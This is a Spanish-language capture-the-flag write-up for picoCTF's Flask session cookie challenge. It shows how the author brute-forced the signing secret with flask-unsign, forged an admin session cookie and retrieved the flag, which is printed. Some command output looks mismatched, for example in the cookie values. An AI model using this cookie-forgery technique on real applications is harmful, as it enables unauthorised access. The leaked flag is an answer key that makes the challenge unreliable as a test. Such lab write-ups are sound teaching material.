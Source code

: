#notas_hacking #web
# Reto
## Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/1e4bd835ad3e7fe776d49e7b8cc280c1/server.py) [http://mercury.picoctf.net:35697/](http://mercury.picoctf.net:35697/)
## Solución

Decodificamos la `cookie`
```bash
┌──(kali㉿kali)-[~/pico]
└─$ echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aNs9-g.72zM3Zz84kFNiNGB-8rfK3johd4 | base64 -d
{"very_auth":"snickerdoodle"}base64: invalid input
```
Extraemos de `server.py` las cookies y las guardamos en un archivo `cookies.txt` con el editor `pluma`, y en un ambiente virtual descargamos la herramienta que con fuerza bruta extraerá la llave
```bash
┌──(kali㉿kali)-[~/pico]
└─$ pluma server.py
┌──(kali㉿kali)-[~/pico]
└─$ python3 -m venv ~/.venv
┌──(kali㉿kali)-[~/pico]
└─$ source ~/.venv/bin/activate
┌──(.venv)─(kali㉿kali)-[~/pico]
└─$ python3 -m pip install flask-unsign
┌──(.venv)─(kali㉿kali)-[~/pico]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aNs9-g.72zM3Zz84kFNiNGB-8rfK3johd4" --wordlist cookies.txt 
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```
creamos la `cookie`
```bash
┌──(.venv)─(kali㉿kali)-[~/pico]
└─$ flask-unsign --sign --cookie "{"very_auth":"admin"}" --secret "peanut butter"
Int2ZXJ5X2F1dGg6c25pY2tlcmRvb2RsZX0i.aNtDDQ.-YzUD_mzQi4GtPSXcjEgBJatr3k
──(.venv)─(kali㉿kali)-[~/pico]
└─$ curl -s http://mercury.picoctf.net:35697/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aNtGZg.14yV1AMPyBWTx5Ys9yACYgcEp78" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_22fe0842}</code></p>
```
## Notas

## Referencias
https://github.com/Paradoxis/Flask-Unsign - herramienta para realizar un ataque de fuerza bruta a la `cookie` para saber la llave con la que se cifro